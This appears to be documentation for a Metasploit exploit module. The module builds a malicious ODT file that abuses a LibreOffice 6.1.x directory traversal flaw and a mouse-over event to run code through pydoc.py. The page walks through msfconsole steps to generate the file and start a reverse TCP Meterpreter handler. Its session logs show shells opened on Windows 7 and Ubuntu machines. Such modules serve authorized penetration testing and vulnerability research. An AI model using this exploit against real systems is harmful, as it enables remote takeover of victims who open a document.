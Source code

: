 ## Description

  This module exploits a directory traversal vulnerability in LibreOffice `v6.1.0-6.1.2.1` that enables remote code execution.
  Note: `6.0.x` and `6.1.3.x` versions are reportedly vulnerable to the directory traversal attack, but are not exploitable by
  this module due to the lack of ability to pass arguments.

  LibreOffice comes bundled with sample macros written in Python and allows the ability to bind program events
  to them. A macro can be tied to a program event by including the script that contains the macro and the function
  name to be executed. Additionally, a directory traversal vulnerability exists in the component that references the
  Python script to be executed. This allows a program event to execute functions from Python scripts relative to the
  path of the samples macros folder. The `pydoc.py` script included with LibreOffice contains the `tempfilepager` function
  that passes arguments to `os.system`, allowing RCE.

  This module generates an ODT file with a mouse over event that when triggered, will execute arbitrary code.

## Vulnerable Application

  LibreOffice `v6.1.0-6.1.4.1`. Vulnerable versions for both Windows and Linux can be found [here](https://downloadarchive.documentfoundation.org/libreoffice/old/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_macro_exec```
  4. Do: ```set FILENAME <name>```
  5. Do: ```set LHOST <ip>```
  6. Do: ```set LPORT <port>```
  7. Do: ```run```
  8. Move the generated file to the target
  9. Start a handler
 10. Open the file with a vulnerable version of LibreOffice
 11. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.1.2.1 running Windows 7

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_macro_exec 
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.156
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.156:49180) at 2019-04-12 15:14:04 -0500

  meterpreter > getuid
  Server username: WIN-MGMN7ND70I1\a_user
  meterpreter > sysinfo
  Computer        : WIN-MGMN7ND70I1
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  ```

### Tested on LibreOffice 6.1.0.1 running Ubuntu 18.04

  ```
  msf5 > use exploit/multi/fileformat/libreoffice_macro_exec
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set target 1
  target => 1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf5 exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set LHOST 192.168.37.1
  LHOST => 192.168.37.1
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (985320 bytes) to 192.168.37.174
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.174:39912) at 2019-04-12 14:50:08 -0500

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 192.168.37.174
  OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
